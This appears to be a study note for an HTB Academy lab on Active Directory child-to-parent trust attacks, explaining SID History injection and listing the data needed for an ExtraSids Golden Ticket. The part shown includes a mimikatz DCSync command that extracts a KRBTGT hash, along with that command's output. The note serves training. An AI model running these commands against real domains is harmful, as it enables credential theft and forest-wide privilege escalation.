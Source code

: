 # ⬆️ **Child → Parent Trust Attacks**

## 🎯 **HTB Academy: Active Directory Enumeration & Attacks**

### 📍 **Overview**

**Child → Parent Trust Attacks** exploit SID History injection to escalate privileges from a compromised child domain to the parent domain within the same forest. This technique leverages the lack of SID filtering protection within forest boundaries, allowing attackers to add Enterprise Admin privileges through Golden Ticket creation with extra SIDs.

---

## 🔗 **SID History Primer**

### **Concept**
- **Purpose**: Migration scenarios - preserve access when users move between domains
- **Mechanism**: Original user's SID added to new account's SID History attribute
- **Token inclusion**: All SIDs in SID History added to user's access token
- **Attack vector**: Inject admin SIDs into controlled account's SID History

### **ExtraSids Attack Requirements**
| Component | Purpose | Example |
|-----------|---------|---------|
| **KRBTGT hash** | Child domain Golden Ticket creation | `9d765b482771505cbe97411065964d5f` |
| **Child domain SID** | Domain identification | `S-1-5-21-2806153819-209893948-922872689` |
| **Target username** | Account for ticket (can be fake) | `hacker` |
| **Child domain FQDN** | Domain specification | `LOGISTICS.INLANEFREIGHT.LOCAL` |
| **Enterprise Admins SID** | Parent domain privilege escalation | `S-1-5-21-3842939050-3880317879-2865463114-519` |

---

## 🔓 **Attack Methodology**

### **Step 1: Gather Required Data**

#### **KRBTGT Hash Extraction**
```powershell
# DCSync attack for KRBTGT hash
mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt

# Key output:
Credentials:
  Hash NTLM: 9d765b482771505cbe97411065964d5f
```
